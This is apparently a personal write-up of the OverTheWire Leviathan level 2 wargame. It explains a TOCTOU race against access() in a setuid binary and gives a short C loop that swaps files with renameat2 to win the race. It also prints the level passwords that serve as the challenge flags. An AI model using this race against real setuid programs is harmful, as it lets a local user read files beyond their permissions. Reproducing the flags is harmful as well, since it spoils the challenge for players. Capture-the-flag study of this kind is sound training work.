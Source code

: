 # OverTheWire Leviathan Level 2

## Credentials
username: leviathan2
password: mEh5PNl10e

## Writeup
For this challenge, I learned about Time-of-check to Time-of-use (TOCTOU) vulnerabilities and race conditions. This vulnerability occurs when there is a delay between the return of the permission check and when allowing access to a file. In this specific example, we are exploiting a TOCTOU vulnerability in C's `access()` function. What we can do is to create a symbolic link to the file we want to access and then to swap the links with an empty file which we created. If we do this enough times, we will be able to enter a scenario where the `access()` function would be checking an empty file owned by us and in the split second delay between the check permission and grant access to file, the empty file will then become a link which points to the actual file we want to access.

I used the following C script to achieve the race condition file name swapping.

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
	while (1) {
		syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
	}
	return 0;
}
``` 
While running this script in the background, I then used the suid file to check access for level 3's password. After a couple attempts, I managed to obtain the flag. 

## Flag
Level 3 Password: Q0G8j4sakn
